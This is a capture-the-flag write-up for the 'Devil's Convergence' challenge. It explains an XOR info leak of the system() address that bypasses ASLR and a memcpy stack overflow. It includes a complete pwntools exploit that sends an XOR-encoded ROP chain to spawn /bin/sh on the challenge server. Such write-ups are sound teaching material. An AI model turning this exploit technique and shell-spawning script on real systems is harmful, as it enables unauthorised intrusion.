


## BackdoorCTF 2025 - Devil's Convergence Write-up



## Step 1: Static Analysis
Opening the binary in IDA/Ghidra reveals a program themed around *Chainsaw Man*. The `main` function calls three distinct subroutines representing different "devils". We need to analyze how they handle data to find a vulnerability.

First, we look at the `initialize` function (`0x401256`). This function is critical because it stores the address of `system` (from libc) into a global variable named `contract_seal`.

```assembly
.text:000000000040125E                 mov     rax, cs:system_ptr      ; Load address of system()
.text:0000000000401265                 mov     cs:contract_seal, rax   ; Store it in global variable
```

### The Info Leak (ASLR Bypass)
The functions `control_manipulation` and `war_devils_prophecy` allow us to interact with this `contract_seal`.
They read 4 bytes of user input, **XOR** it with bytes from `contract_seal`, and print the result back to us.

```assembly
; Inside control_manipulation (0x4012C9)
.text:000000000040132B                 movzx   ecx, [rbp+rax+buf]      ; Load user input byte
.text:0000000000401335                 lea     rdx, contract_seal      ; Load address of the seal (system pointer)
.text:000000000040133F                 movzx   eax, byte ptr [rax]     ; Load byte from system address
.text:0000000000401342                 xor     ecx, eax                ; XOR them
```

**Vulnerability:**
If we send `0x00` (NULL bytes) as our input, the XOR operation becomes `0x00 ^ KEY = KEY`.
By sending null bytes to both functions, we can leak the lower and upper halves of the `system` address. This leaks the **libc base address** (bypassing ASLR) and gives us the "encryption key" used later.

## Step 2: The Buffer Overflow
The third function, `bomb_devils_contract` (`0x401390`), contains the main vulnerability.
It allocates a chunk on the heap, reads 512 bytes (`0x200`) of input, "encrypts" it using the `contract_seal` (the `system` address) as a key, and then copies it to the stack.

```assembly
; Inside bomb_devils_contract
.text:0000000000401493                 lea     rax, [rbp+dest] ; Destination buffer on stack (size 0x50)
.text:0000000000401497                 mov     edx, 200h       ; Copying 512 bytes!
.text:00000000004014A2                 call    _memcpy         ; Stack Buffer Overflow
```

The buffer on the stack (`dest`) is only `0x50` (80 bytes) large, but `memcpy` copies `0x200` bytes. This allows us to overwrite the **Return Address (RIP)**.

**The Constraint:**
Before the `memcpy`, the program modifies our input in a loop:
`Input[i] = Input[i] ^ Key[i % 8]`
where the Key is the `system` address. To get our ROP chain to land correctly on the stack, we must XOR our payload with this key *before* sending it.

## Step 3: The Solution Strategy

1.  **Leak Stage:** Send `\x00` bytes to the first two functions to recover the address of `system`.
2.  **Calculation:**
    *   Use the leaked `system` address to calculate the base address of `libc`.
    *   Find the address of `/bin/sh` and a `pop rdi; ret` gadget within the provided `libc.so.6`.
3.  **ROP Chain Construction:**
    *   `POP RDI` gadget.
    *   Address of `/bin/sh`.
    *   `RET` gadget (for stack alignment, crucial in x64 Ubuntu).
    *   Address of `system`.
4.  **Payload Encryption:**
    *   Construct the raw overflow payload (Padding + ROP Chain).
    *   XOR the entire payload with the leaked `system` address.
    *   Send it to trigger the overflow and get a shell.

## Step 4: The Solution Script

```python
#!/usr/bin/env python3
from pwn import *

# Configuration
exe_path = "./chal_chainsawman"
libc_path = "./libc.so.6"

exe = ELF(exe_path)
libc = ELF(libc_path) # Load the provided libc for exact offsets

context.binary = exe
context.arch = 'amd64'

host = "remote.infoseciitr.in"
port = 8005

def start():
    if args.REMOTE:
        return remote(host, port)
    else:
        return process(exe_path)

def solve():
    io = start()

    log.info("Attempting to leak 'system' address...")

    # --- Step 1: Info Leak (Bypass ASLR) ---
    # control_manipulation: leaks lower 4 bytes
    io.recvuntil(b"control: ")
    io.send(b"\x00" * 4)
    io.recvuntil(b"essence: ")
    leak_low = io.recv(4)
    
    # war_devils_prophecy: leaks upper 4 bytes
    io.recvuntil(b"War: ")
    io.send(b"\x00" * 4)
    io.recvuntil(b"essence: ")
    leak_high = io.recv(4)
    
    # Reconstruct the system address
    system_addr = u64(leak_low + leak_high)
    log.success(f"Leaked system address: {hex(system_addr)}")

    # --- Step 2: Calculate Gadgets ---
    libc.address = system_addr - libc.symbols['system']
    log.info(f"Calculated Libc base: {hex(libc.address)}")

    bin_sh = next(libc.search(b'/bin/sh'))
    
    rop = ROP(libc)
    pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
    ret_gadget = rop.find_gadget(['ret'])[0] # Stack alignment gadget

    log.info(f"POP RDI gadget: {hex(pop_rdi)}")
    log.info(f"/bin/sh address: {hex(bin_sh)}")

    # --- Step 3: Build ROP Chain ---
    # Offset to RIP: 0x50 (buffer) + 8 (saved rbp) = 88 bytes
    offset = 88
    
    rop_chain = [
        pop_rdi,
        bin_sh,
        ret_gadget,       # Align stack to 16 bytes for system()
        system_addr       # call system("/bin/sh")
    ]
    
    raw_payload = b"A" * offset + flat(rop_chain)

    # --- Step 4: Encrypt Payload ---
    # The binary XORs input with the system address.
    # We XOR it beforehand so (Payload ^ Key) ^ Key = Payload
    key = p64(system_addr)
    
    encrypted_payload = bytearray()
    for i in range(len(raw_payload)):
        encrypted_payload.append(raw_payload[i] ^ key[i % 8])

    log.info(f"Sending {len(encrypted_payload)} bytes of encrypted payload...")
    io.recvuntil(b"contract: ")
    io.send(encrypted_payload)
    
    # Get shell
    io.interactive()

if __name__ == "__main__":
    solve()
```

## Step 5: Results

Running the script against the remote server successfully leaks the address, calculates the correct libc base, and executes the ROP chain to spawn a shell.



**Flag:**
`flag{1've_n3ver_g0n3_t0_sch00l_eith3r!}`